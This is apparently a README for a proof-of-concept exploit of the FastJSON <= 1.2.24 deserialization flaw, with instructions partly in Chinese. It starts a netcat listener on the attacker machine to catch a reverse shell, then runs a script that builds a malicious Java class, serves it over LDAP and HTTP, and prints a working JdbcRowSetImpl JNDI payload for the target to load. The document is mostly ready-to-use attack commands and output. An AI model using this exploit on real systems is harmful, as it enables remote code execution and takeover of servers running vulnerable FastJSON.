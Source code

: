 # FastJSON <= 1.2.24 poc


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* 攻击机

启动监听

```py
nc -lvnp 9001
```
自动开启服务并生成payload

```python3
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] FastJSON <= 1.2.24

[+] Exploit java class created success
[+] Setting up LDAP server

[+] POST: Send me: {" b " :{ "@type" : "com.sun.rowset.JdbcRowSetImpl" , "dataSourceName" : "ldap://localhost:1389/a" , "autoCommit" : true}}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389

```



